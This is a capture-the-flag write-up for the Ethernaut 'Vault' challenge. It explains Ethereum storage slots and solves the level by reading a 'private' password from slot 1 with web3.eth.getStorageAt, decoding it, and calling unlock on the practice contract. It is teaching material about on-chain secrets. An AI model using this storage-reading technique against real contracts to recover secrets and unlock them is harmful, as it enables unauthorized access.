

# Day 8 - Vault

## How Ethereum stores data on the blockchain

Storage on Ethereum blockchain is 2²⁵⁶ slots, and each slot is 32 bytes.

Each smart contract has its own storage to reflect the state of the contract. The values in storage persist across different function calls. And each storage is tethered to the smart contract’s address.

Data is stored sequentially in these slots, in order of declaration.
Storage is optimized to save byte space. So if sequential variables will fit in a single 32-byte slot, they will share the same slot, indexing from the least significant bits (from the right).



## Accessing storage

Conveniently, Web3 allows you to reach into contract storage via:

```js
web3.eth.getStorageAt(contractAddress, slotNumber);
```

## Solution

- [init a truffle project](./projects/day8-vault)

- Open truffle console on Ropsten

```js
truffle console --network ropsten
```

- Access the password storage slot belonging to the contract instance (deployed by Ethernaut) at index 1

```js
const password = await web3.eth.getStorageAt("<<ethernaunt contract address>>", 1);
```

- We can check the password string by `web3.utils.hexToAscii`

```js
console.log(web3.utils.hexToAscii(password)); // A very strong secret password :)
```

- Unlock ethernaut

```js
await contract.unlock(password);
```
